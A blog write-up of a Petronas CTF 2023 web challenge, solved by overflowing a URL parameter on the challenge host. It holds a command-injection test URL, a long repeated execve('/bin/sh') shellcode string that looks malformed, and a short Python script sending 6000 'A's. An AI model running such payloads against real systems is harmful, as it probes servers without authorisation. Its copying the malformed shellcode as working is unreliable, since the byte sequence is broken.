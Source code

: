 ```yaml
---
title: 'PetronasCTF2023 Web Challenge: Henny Peony Got Hit on the Head; with an egg! Writeup'
date: 2023-10-11 00:35:22
author: w0rmhol3
categories: Write-Up
tags: Web CTF
---
```

Petronas CTF 2023 is a local CTF organized by Petroliam Nasional Berhad Malaysia. The CTF was held on 9th and 10th October 2023, in Kuala Lumpur Convention Center for 2 days with an elimination round and a top 25 final round. The challenges were quite interesting and majority are great quality challenge. In this web challenge an featureless website was provided. <!--more-->

![Website](https://github.com/w0rmhol3/w0rmhol3.github.io/assets/91303166/3f3a8670-5fa9-4a2e-9b42-bd04e469dfa1)


As you can see there's literally nothing but a string `You are not near the egg yet`.

![Source](https://github.com/w0rmhol3/w0rmhol3.github.io/assets/91303166/a9de97ec-ec84-4764-8cb6-80ddd88cf650)


I had even try to see if there's anything to be revealed within the source code but there's nothing at all. I had tried to execute command injection within the url by going through different parameters in such as `https://petronasgraduate-quantum.chals.io/?command=(ls)` and had tried going through XSS, SSTI, Header manipulation and other possible exploitation. In the end, the solution found to exploit this website is to run command injection and overflow it. 

Through the challenge a hint stating that `"is it possible to overflow the egg?"` (or similar context). So from the clue, I had found related buffer overflow technique called `Egg Hunter`. From that reference that related to the theme of the challenge. So one of the method I found is to try to overflow it through the URL side by pasting a bunch of payload onto the injection: 

```sh
https://petronasgraduate-quantum.chals.io/?egg=\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05
```

^The injection used

![Solution](https://github.com/w0rmhol3/w0rmhol3.github.io/assets/91303166/c96ac578-0542-4aac-903a-c3d2dad17526)


This solution was not done during the competition and was only found that it works after the competition had ended.

The solution done during the competition was through scripting:

```sh
import requests as request

def overflow(n):
    url = "https://petronasgraduate-quantum.chals.io/?egg={}".format("A"*n)
    r = request.get(url)
    print(r.text)
```

^Script Used

![Solution2](https://github.com/w0rmhol3/w0rmhol3.github.io/assets/91303166/d5d04429-4171-47be-b1b1-d68d850d57fd)


Then running overflow(6000), I had retrieved the flag by overflowing the system.
Flag: petgrad2023{Quantum_Nexus_0r@c13}
